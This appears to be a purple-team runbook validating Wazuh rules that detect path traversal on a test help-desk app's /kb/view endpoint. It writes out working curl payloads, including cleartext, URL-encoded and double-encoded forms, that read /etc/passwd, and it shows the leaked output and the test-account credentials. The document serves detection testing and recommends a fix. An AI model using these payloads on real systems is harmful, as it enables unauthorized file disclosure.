

# Runbook RB-02 - Path traversal on /kb/view

- **Scenario:** reading files outside the allowed directory via the `doc` parameter
- **Reference attack plan:** `detection/attack-plans/AP-02-path-traversal.md`
- **Detection rules:** 100140 (attempt), 100141 (successful traversal)
- **Execution date:** 23-10-2026
- **Operator:** Meghan CRESCI-HUMANN
- **Target:** SupportDesk V1 - `http://localhost:3000/kb/view`
- **MITRE ATT&CK:** T1190 - Exploit Public-Facing Application

---

## 1. Prerequisites

- Wazuh and SupportDesk running.
- The `/kb/view` endpoint requires a session: first log in with a test account
  (`jdupont@supportdesk.local` / `User_123`, role `user`).

## 2. Attack execution

```bash
# BEFORE
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100140"' /var/ossec/logs/alerts/alerts.json
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100141"' /var/ossec/logs/alerts/alerts.json

# 1. Log in and keep the session cookie
curl -s -c /tmp/cookies.txt -o /dev/null \
  -X POST http://localhost:3000/login \
  -d 'email=jdupont@supportdesk.local&password=User_123'

# 2. Check the session (must return 200, not 302)
curl -s -b /tmp/cookies.txt -o /dev/null -w "HTTP %{http_code}\n" \
  "http://localhost:3000/kb/view?doc=vpn-guide.html"

# 3. Traversal payloads (several depths and encodings)
curl -s -b /tmp/cookies.txt -o /dev/null "http://localhost:3000/kb/view?doc=../../etc/hostname"        -H 'X-Forwarded-For: 203.0.113.77'
curl -s -b /tmp/cookies.txt           "http://localhost:3000/kb/view?doc=../../../etc/passwd"           -H 'X-Forwarded-For: 203.0.113.77'
curl -s -b /tmp/cookies.txt -o /dev/null "http://localhost:3000/kb/view?doc=%2e%2e/%2e%2e/etc/hostname"  -H 'X-Forwarded-For: 203.0.113.88'
curl -s -b /tmp/cookies.txt -o /dev/null "http://localhost:3000/kb/view?doc=%252e%252e/%252e%252e/etc/hostname" -H 'X-Forwarded-For: 203.0.113.99'

sleep 20
# AFTER
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100140"' /var/ossec/logs/alerts/alerts.json
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100141"' /var/ossec/logs/alerts/alerts.json
```

### Variant via the web interface (for the demo)

The attack is reproducible directly in the browser, once logged in
(`jdupont` / `User_123`):

1. Go to `http://localhost:3000/tickets` to get an active session.
2. Enter in the address bar:
   `http://localhost:3000/kb/view?doc=..%2f..%2f..%2fetc%2fpasswd`
   (the `/` are encoded as `%2f` to prevent the browser from collapsing the `../`).
3. The page displays the content of `/etc/passwd` in the SupportDesk interface (see screenshot §3).

This variant is the most telling for a demonstration: the stolen system file
is displayed directly in the application.

## 3. Observations (2026-10-23 execution)

### Results per payload

| Payload                               | Depth     | Detected (100140) | File read (HTTP 200)                          |
| ------------------------------------- | --------- | ----------------- | --------------------------------------------- |
| `../../etc/hostname`                  | 2 levels  | ✅                | ❌ "Document not found" (not deep enough)     |
| `../../../etc/passwd`                 | 3 levels  | ✅                | ✅ **confirmed leak**                         |
| `%2e%2e/%2e%2e/...` (encoded once)    | 2 levels  | ✅                | ❌                                            |
| `%252e%252e/...` (double encoded)     | 2 levels  | ✅                | ❌                                            |

- **100140**: every attempt is detected, whatever its form (cleartext, encoded, double-encoded).
- **100141** (level 12): triggered by `../../../etc/passwd`, which returned an **HTTP 200** with the file content.

### Proof of the leak

`GET /kb/view?doc=../../../etc/passwd` returns the actual content of the container's `/etc/passwd`, displayed in the SupportDesk interface:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
node:x:1000:1000::/home/node:/bin/bash
```



The right depth is **three** `../`: the knowledge base directory sits three levels deep in the container, which is why `../../` (two levels) returns "Document not found".

## 4. Analysis

- **Robust detection:** rule 100140 catches the cleartext (`../`), once-encoded (`%2e%2e`) and even double-encoded (`%252e%252e`) forms. The pattern spots the `%2e` that remains in the string after the contract's single decoding.
- **Attempt / success distinction:** the attack that actually read a file produced the 100141 alert (level 12), while unsuccessful attempts stay at 100140 (level 7). This grading helps prioritization: a 100141 is a confirmed incident.
- **Real application vulnerability:** the app builds the file path without normalizing it or restricting `doc` to the KB directory. The `/etc/passwd` leak proves it.

## 5. Limitations and next steps

- **Variable depth:** an attacker must guess the number of `../`. Fuzzing (ffuf with a traversal wordlist) would test every depth automatically - to add if needed.
- **Other files:** `/etc/passwd` is a proof-of-concept; other sensitive files (code, config, SQLite database) would be readable the same way.
- **Recommended application fix (outside detection scope):** normalize the path and check that it stays within the KB directory (`path.resolve` + prefix check).

## 6. Status

| Criterion (AP-02)                           | Result           |
| ------------------------------------------- | ---------------- |
| Severity ≥ 7 alert (100140) on attempt      | ✅               |
| 100141 alert on successful read             | ✅               |
| Detection < 1 min                           | ✅               |
| Exploitation proof (file leak)              | ✅ `/etc/passwd` |
| Reproducible                                | ✅               |

**Conclusion: scenario validated.** Path traversal detection works against real payloads, including encoded ones, and distinguishes the attempt from successful exploitation.